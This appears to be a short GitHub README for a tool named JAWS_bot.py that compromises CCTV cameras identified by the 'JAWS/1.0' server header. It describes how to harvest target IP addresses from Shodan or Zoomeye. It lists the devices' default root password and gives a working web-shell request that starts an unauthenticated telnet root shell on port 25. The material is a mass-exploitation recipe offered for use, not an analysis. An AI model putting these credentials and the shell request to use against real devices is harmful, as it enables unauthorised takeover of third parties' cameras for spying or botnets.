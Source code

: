 # Pwning-CCTV-cameras
Exploiting cameras with a very distinctive HTTP Server header of "JAWS/1.0".

The detailed description of the vulnerability is shown in the link below.  
https://www.pentestpartners.com/security-blog/pwning-cctv-cameras/

Through searching the string "JAWS/1.0" in Shodan or Zoomeye, we can get target IP list. Executing the JAWS_bot.py to get the devices which have the vulnerability.
JAWS_bot.py is based on two methods: weak password and the built-in web shell.  
  -weak password: "root":"juantech".  
  -built-in web shell: inputing url like "http://192.168.3.101/shell?/usr/sbin/telnetd -l/bin/sh -p 25" to bind the telnet service to port 25 that without password.  
